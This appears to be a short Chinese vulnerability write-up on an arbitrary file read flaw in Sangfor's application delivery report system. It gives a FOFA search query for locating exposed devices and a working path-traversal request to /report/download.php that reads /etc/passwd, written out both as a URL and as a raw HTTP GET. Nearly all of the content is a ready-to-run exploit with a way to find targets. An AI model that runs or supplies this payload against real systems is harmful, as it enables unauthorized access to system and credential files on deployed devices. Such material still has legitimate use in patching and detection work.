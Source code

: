 <a name="DFDZj"></a>
# 一、漏洞背景
```java
SINFOR AD是深信服最新推出的应用交付系列设备，其突出特色就是SINFOR AD的智能分析功能。深信服应用交付报表系统存在任意文件读取漏洞,攻击者利用漏洞可读取设备中的指定路径文件
```
<a name="NpLPF"></a>
# 二、fofa搜索语法
```java
app="SANGFOR-应用交付报表系统"
```
<a name="TNcUl"></a>
# 三、漏洞复现
```java
http://xx.xx.xxx.xx:85/report/download.php?pdf=../../../../../etc/passwd
```
```java
GET /report/download.php?pdf=../../../../../etc/passwd HTTP/1.1
Host: xx.xx.xx.xx:85
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/42988647/1719236804188-dfd4d957-65c5-4694-907a-4c1b7f7676d4.png#clientId=ud521e60a-9dae-4&from=paste&height=689&id=u1e6e42a7&originHeight=861&originWidth=960&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=244941&status=done&style=none&taskId=u69c9de41-4d37-4736-ae45-9f24a784b1a&title=&width=768)<br />











